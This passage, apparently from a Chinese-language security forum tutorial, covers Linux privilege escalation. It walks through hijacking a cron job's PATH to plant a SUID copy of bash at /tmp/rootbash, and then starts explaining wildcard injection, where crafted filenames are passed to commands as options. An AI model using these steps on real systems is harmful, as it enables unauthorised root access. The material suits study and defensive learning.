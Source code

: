 ![image-20210630173619529](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-f1f7936e2b1920ff0715fb6766f3c4ee1c9db3f1.png)

请注意，/home/user目录（我们可以写信给）位于 PATH 变量的开头，并且第一个 cron jobs不使用绝对路径。

### 2.在/home/user 中创建文件 overwrite.sh，内容如下：

```php
#!/bin/bash 
cp /bin/bash /tmp/rootbash 
chmod +s /tmp/rootbash
```

![image-20210630173757396](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-dd41b58a76f6df578d0932f574055e323eb0acde.png)

### 3.加权

```php
$ chmod +x /home/user/overwrite.sh
```

### 4.等待cronjob运行（此作业尤其每分钟运行一次）。

### 5.创建/tmp/rootbash文件

执行它，使用与-p保存有效的UID

```php
/tmp/rootbash –p
```

![image-20210630174309759](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-79cdf842084a1f17719bd76bd1b4c413212b05a7.png)

通配符
---

### 前言

当通配符字符 `*`作为参数的一部分提供给命令时，外壳将首先在通配符上执行 文件名扩展 （也称为 globbing）

此过程将用以空格分隔的文件列表替换通配符，以及当前目录中的目录名

执行命令：

```echo
echo *
```

### 通配符 &amp; 文件名

由于Linux 中的文件系统通常对文件名非常允许，并且文件名扩展在执行命令之前发生，因此可以通过创建具有这些名称的文件将命令行选项（例如 -h，-help）传递到命令

文件名不仅限于简单的选项  
事实上，我们可以创建匹配复杂选项的文件名：

```php
--option=key=value 
```
